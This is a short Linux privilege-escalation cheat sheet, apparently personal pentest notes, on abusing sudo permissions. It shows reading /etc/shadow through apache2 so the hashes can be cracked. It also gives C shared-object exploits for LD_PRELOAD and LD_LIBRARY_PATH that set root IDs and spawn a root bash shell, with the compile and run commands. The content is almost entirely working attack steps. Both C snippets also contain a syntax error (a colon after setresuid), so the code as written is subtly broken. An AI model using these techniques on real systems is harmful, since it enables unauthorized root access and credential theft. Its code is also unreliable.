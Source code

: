 # Sudo

```bash
sudo -l
```

## Apache

Use apache2 to read /etc/shadow file:

```bash
/usr/bin/apache2

$ sudo apache2 -f /etc/shadow
Copy the hash and crack it.
```

## Environment Variable

```bash
$ sudo -l
env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

### LD_PRELOAD

Create the exploit:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0):
	system("/bin/bash -p");
}
```

Compile:

```c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Run any allowed program using sudo and the shared object created:

```bash
sudo LD_PRELOAD=/tmp/preload.so find
```

### LD_LIBRARY_PATH

Select one shared object to replace (one that sudo can run):

```bash
$ ldd /usr/sbin/apache2
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
```

Create the exploit:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0):
	system("/bin/bash -p");
}
```

Compile:

```bash
gcc -fPIC -shared -nostartfiles -o libcrypt.so.1 library_path.c
```

Run any allowed program using sudo and the shared object created:

```bash
sudo LD_LIBRARY_PATH=. apache2
```